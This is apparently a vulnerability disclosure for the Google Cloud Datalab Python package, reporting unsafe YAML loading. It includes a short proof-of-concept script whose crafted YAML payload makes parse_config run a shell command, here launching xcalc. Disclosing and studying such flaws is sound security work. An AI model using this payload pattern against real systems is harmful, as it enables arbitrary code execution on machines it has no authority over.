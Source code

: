 ## ✍️ Description
Google Cloud Datalab Python package. Used in Google Cloud Datalab and can be used in Jupyter Notebook.
This adds a number of Python modules such as google.datalab.bigquery, google.datalab.storage, etc, for accessing Google Cloud Platform services as well as adding some new cell magics such as %chart, %bigquery, %storage, etc.
See https://github.com/googledatalab/notebooks for samples of using this package.

# Vulnerability discription

Vulnerable to yaml deserilisation attack caused by unsafe loading.
# Proof of Concept
1. run exploit.py using ipython or jupyter notepad
```python
# exploit.py
import os
os.system('pip install datalab')
import datalab.utils.commands._utils as _utils 
exploit = '''!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
'''
_utils.parse_config(exploit ,None)
```
* running exploit through native python3/puthon2 causes error as the datalab is intended to run in jupyter notebook / ipython3/ipython 

![](https://cdn.discordapp.com/attachments/789769803770494996/791656913799872532/Screenshot_from_2020-12-24_18-41-16.png)
![](https://cdn.discordapp.com/attachments/789769803770494996/791656941586874398/Screenshot_from_2020-12-24_18-39-43.png)
